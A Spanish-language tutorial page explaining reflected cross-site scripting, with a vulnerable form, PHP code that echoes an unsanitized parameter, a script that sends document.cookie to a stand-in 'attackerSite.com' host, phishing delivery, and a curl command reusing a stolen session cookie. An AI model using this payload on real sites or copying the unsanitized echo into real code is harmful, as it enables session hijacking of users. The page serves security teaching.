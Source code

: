 [Volver al inicio](../Readme.md)
# XSS (Cross-Site Scripting)
## Introducción.
El ataque XSS consiste en inyectar codigo Javascript malicioso en un sitio web vulnerable, de forma que al ser cargado por un usuario víctima, se ejecute en su navegador dicho código malicioso, de forma que se pueda extraer información de la víctima, como por ejemplo, la cookie de sessión. Existen básicamente tres tipos de ataques (aparte de los ataques XSS ciegos):
## Tipos de XSS
### XSS Reflejados
Este tipo de ataque se aprovecha de una deficiente o nula sanitización de los parametros de entrada procedentes, por ejemplo, de un formulario HTML del sitio web. Imaginemos un sitio web que tiene el siguiente código HTML para leer una datos del usuario:
```html
<!DOCTYPE html>
<html>
<head>
    <title>Web XSS</title>
</head>
<body>
    <h2>Busca un producto</h2>
    <form action="xss1.php" method="GET">
        <label for="id_producto">Producto (ID):</label>
        <input type="text" id="id_producto" name="id_producto" required>
        <button type="submit">Enviar</button>
    </form>
</body>
</html>
 ```

 Y el código PHP del lado del servidor que recibe los datos del usuario:
 ```php
 <!DOCTYPE html>
<html>
<head>
    <title>Lector XSS</title>
</head>
<body>

<?php
// Crear conexión
$conn = new mysqli($servername, $username, $password, $database);

// Verificar la conexión
if ($conn->connect_error) {
    die("Error de conexión: " . $conn->connect_error);
}

// Verificar si se proporcionó el parámetro "id_producto" en la URL
if(isset($_GET['id_producto'])) {
    
    /* Aquí realizaría la búsqueda en la base de datos*/

    if ($result->num_rows > 0) {
        // El producto existe en la base de datos
        echo "Realiza alguna acción";
    } else {
        // El producto NO existe en la base de datos
        echo "El producto con el ID " + $_GET['id_producto'] + " no existe en la base de datos.";
    }
} else {
    // Si el parámetro "id_producto" no se proporcionó en la URL
    echo "Debe proporcionar un parámetro 'id_producto' en la URL.";
}

// Cerrar conexión
$conn->close();
?>

</body>
</html>
```

 En el código PHP (que no está sanitizado), observamos que, en caso de que no exista el producto, muestra un mensaje al cliente en el que añade el id del producto buscado. En este caso, si un atacante integra un script malicioso en el campo de búsqueda del producto, dicho script se verá **REFLEJADO** en la respuesta HTML que se envía al cliente y será ejecutado en su navegador.

 Imagina ahora que el script que envía el atacante es el siguiente:

 ```html
 <script>
    var cookies = document.cookie;

    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'https://attackerSite.com/store_cookies.php', true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('cookies=' + encodeURIComponent(cookies));
</script>
 ```
El atacante estará enviando la cookie del usuario de ese sitio web a un sitio de su propiedad, con la intención de almacenar cada cookie de sesión.

!!! ACLARACIÓN:
Si un atacante realiza estas pruebas sobre un sitio web con una vulnerabilidad XSS reflejada, hay que entender que la respuesta al ataque la recibe él mismo, es decir, enviaría su propia cokie. Para poder conseguir la cookie de la víctima, el atacante guarda la respuesta del servidor **que contiene el payload (script XSS) inyectado** y mediante ataques dirigidos de PHISHING, enviará enlaces a las víctimas potenciales para que ejecuten la respuesta envenenada del servidor, con lo que conseguirá que la víctima envíe su propia cookie al sitio del atacante.

Posteriormente, el atacante, previo estudio del funcionamiento del sitio web que pretende atacar y conociendo las peticiones que utiliza el sitio web, puede intentar acciones maliciosas utilizando las cookies robadas:

```
curl -X GET \
  -H "Cookie: PHPSESSID=SESSION_ID_ROBADA" \
  https://example.com/protected-page.php

```

### XSS almacenados
### DOM XSS
## Bibliografía